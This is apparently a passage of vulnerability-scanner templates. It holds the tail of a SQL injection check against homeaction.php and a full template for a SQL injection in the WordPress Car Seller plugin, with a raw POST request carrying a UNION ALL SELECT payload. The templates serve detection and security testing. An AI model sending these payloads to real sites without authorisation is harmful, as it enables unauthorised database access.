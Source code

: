 - {{BaseURL}}/homeaction.php
  - cat_id=4'&get_seleted_Category=1
### Matchers

**Type - word**
- words
    1. text/html
- part - header

**Type - word**
- words
    1. Warning: mysqli_num_rows() expects parameter 1 to be
    2. xdebug-error xe-warning
- part - body
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress Car Seller - Auto Classifieds Script - SQL Injection
## Description
- The request_list_request AJAX call of the Car Seller - Auto Classifieds Script WordPress plugin through 2.1.0, available to both authenticated and unauthenticated users, does not sanitize, validate or escape the order_id POST parameter before using it in a SQL statement, leading to a SQL injection issue.
- severity - critical
- tags - cve2021,wordpress,wp-plugin,sqli,wpscan,cve
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

action=request_list_request&order_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a767671,0x685741416c436654694d446d416f717a6b54704a457a5077564653614970664166646654696e724d,0x7171786b71),NULL-- -

```
### Matchers

**Type - status**
- status
    1. 200
